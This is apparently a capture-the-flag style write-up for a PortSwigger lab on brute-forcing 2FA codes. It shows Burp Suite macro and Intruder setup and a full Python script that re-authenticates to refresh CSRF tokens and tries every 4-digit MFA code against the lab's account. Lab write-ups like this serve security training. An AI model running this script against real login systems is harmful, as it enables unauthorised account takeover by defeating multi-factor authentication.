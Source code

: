 # Lab Brute-forcing 2fa verification codes 

## Objective:

 This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: carlos:montoya 
## Start by looking at the login page

![image](https://user-images.githubusercontent.com/90155329/133940553-691bd94f-403d-4b86-8480-e793a11013f0.png)

![image](https://user-images.githubusercontent.com/90155329/133940559-8099d688-ff43-46a5-b238-61a4a2f4b24a.png)

After logging in, a new login page at /login2 is displayed

![image](https://user-images.githubusercontent.com/90155329/133940567-a8ab6ccf-6579-49a6-be41-14170db86238.png)

![image](https://user-images.githubusercontent.com/90155329/133940571-3f63a8d2-3fb2-4fbc-b011-999a94ebf1e1.png)

Notice the csrf token values. These are important

I tried a couple of mfa options 0000, and 0001. I noticed that after 2 attempts, I automatically get redirected to the login page. 

To complete this lab, I need to brute force every the mfa code by using every possible option. Since the mfa code is only 4 digits, this is possible .

To do this, I need to use burp macros and session handler options, to create login for every mfa attempt. This would ensure that I would receive a new csrf token value.

1. Go to > Project options 
2. From "Session Handling Rules", click "Add"

![image](https://user-images.githubusercontent.com/90155329/133940582-5dbd9316-9238-43e3-9b24-ca407a3648bb.png)

I will use Session Handling Rules to login and get a new csrf token when I use burp intruder to brute force the mfa code

3. Click "ADD" to create a new Rule action. This will open a new prompt.

![image](https://user-images.githubusercontent.com/90155329/133940586-72638212-fb3e-45a0-b90b-d9650915bb4d.png)

4. Click "Add" to create a new macro

![image](https://user-images.githubusercontent.com/90155329/133940628-faf69f42-ad30-4618-93bc-d8fc86603d7a.png)

5. Under "Macro Recorder", choose the requests needed for the login.

![image](https://user-images.githubusercontent.com/90155329/133940616-a6349c2f-e6e5-47c6-83b1-e9975901eda0.png)

1. The First GET request to /login is needed to get the csrf and set-cookie value
2. The POST request used the csrf value and set-cookie value and authenticates using the carlos:montoya credentials
3. The third GET request collects the csrg token value from /login2 

The reason I chose those values is because they are needed to receive a valid csrf token for the /login2 page. This is the page where Burp Intruder will be brute forcing the mfa code. 

From the "Scope" tab of the "Session Handling Rule Editor", make sure that "Intruder" and "Include All URL's" is selected. This makes sure that intruder will run this macro on every request. 

![image](https://user-images.githubusercontent.com/90155329/133940649-b4915a01-c804-43fd-bb8b-1f9f4faa8f3f.png)

The next step is to use intruder to brute force the mfa code

I selected the mfa-code value as the target

![image](https://user-images.githubusercontent.com/90155329/133940655-019058b6-4329-4492-9309-56cae41dbd2d.png)

I chose the following payload options:

![image](https://user-images.githubusercontent.com/90155329/133940669-4c3af3a9-4059-4cd5-8135-2363b193dbb8.png)

This ensures that every 4 character option from 0-9 is iterated through

![image](https://user-images.githubusercontent.com/90155329/133940676-9e2f132e-c66b-408e-aa55-c31faaf6f02e.png)

Session handling does not take multiple threads too well, so I had to do this 1 thread at a time. 

I started the attack 

![image](https://user-images.githubusercontent.com/90155329/133940683-578e5f85-3ab1-446c-852a-a6ffb8e8ccc6.png)

The 200 response codes mean that my the csrf tokens are working which means the macros are correctly functioning. 

In the meantime, I wrote a python script to do the same thing. 

-------------------------------------------------------

				'''
				Portswigger lab 2FA bypass using a brute-force attack

				This script logs in with the provided credentials to /login.

				After this login, the session will get redirected to /login2 which will ask for the MFA code. This code is only 4 digits and can be brute forced.This script will iterate through every option until the MFA code is successful. 

				Because of CSRF defense, I will need to relogin every 2 MFA attempts to get a valid CSRF token. 

				'''

				import sys
				import re
				import requests
				import urllib
				import urllib3

				proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
				urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
				login2Cookies = []
				login2CSRF = []

				def mfaBrute(url):
					#brute mfa prompt by attempting every possible option for a 4 digit code(0000,0001,0002,etc). After 2 attempts, login again to get a new valid csrf and token values
					numbers = [0,1,2,3,4,5,6,7,8,9]
					attempt = 1

					for p1 in numbers:
						for p2 in numbers:
							for p3 in numbers:
								for p4 in numbers:
									mfaCode = str(p1) + str(p2) + str(p3) + str(p4)
									cookies = {'session': login2Cookies[-1]}
									data = {'csrf':login2CSRF[-1], 'mfa-code': mfaCode}

									print("Attempting {} with CSRF token of {} and cookie of {}".format(mfaCode,login2CSRF[-1],login2Cookies[-1]))
									p = requests.post(url + "/login2", cookies=cookies,data=data, verify=False, proxies=proxies)

									if "Incorrect security code" not in p.content:
										print("The pin of {} worked!".format(mfaCode))
										exit()

									if attempt % 2 != 0:
										print("Reauthenticating to get new tokens")
										getTokensLogin1(url)
									attempt += 1	

				def getCSRF2(url,cookie2):
					#Send get request to /login2 and collect the second csrf token
					cookies = {'session': cookie2}
					r = requests.get(url + "/login2", cookies=cookies, proxies=proxies, verify=False)
					csrf2 = re.findall('[A-Za-z0-9]{32}',str(r.content))[0]
					login2Cookies.append(cookie2)
					login2CSRF.append(csrf2)


				def getCookie2(url,headers):
					#After authenticating, collect second cookie value for next login mfa prompt page
					cookie2 = re.findall("[A-Za-z0-9]{32}",str(headers))[0]
					getCSRF2(url,cookie2)

				def authenticateLogin1(url,cookie1,csrf1):
					# Uses the collected information to authenticate
					cookies = {'session': cookie1}
					data= {'csrf': csrf1, 'username': 'carlos', 'password':'montoya'}
					p = requests.post(url + "/login",cookies=cookies,data=data,allow_redirects=False, verify=False, proxies=proxies)
					getCookie2(url,p.headers)

				def getTokensLogin1(url):
					# Sends Get request to first login page and saves the cookie and csrf token value
					r = requests.get(url + "/login",verify=False, proxies=proxies)
					cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0]
					csrf1 = re.findall("[A-Za-z0-9]{32}",str(r.content))[0]
					authenticateLogin1(url,cookie1,csrf1)


				def main():
					if len(sys.argv) != 2:
						print("(+) Not enough Arguments")
						print("(+)Example: {} http://example.com".format(sys.argv[0]))
					else:
						url = sys.argv[1]
						getTokensLogin1(url)
						mfaBrute(url)

				if __name__ == "__main__":
					main()


---------------------------------------------------------------------

I used this script to start the attack

![image](https://user-images.githubusercontent.com/90155329/133940796-a4adea5b-536f-463d-93c8-850e748d1f46.png)

Eventually, we get the correct MFA code:

![image](https://user-images.githubusercontent.com/90155329/133943756-6459946c-e599-4d44-9705-7d0eeac3b3a9.png)


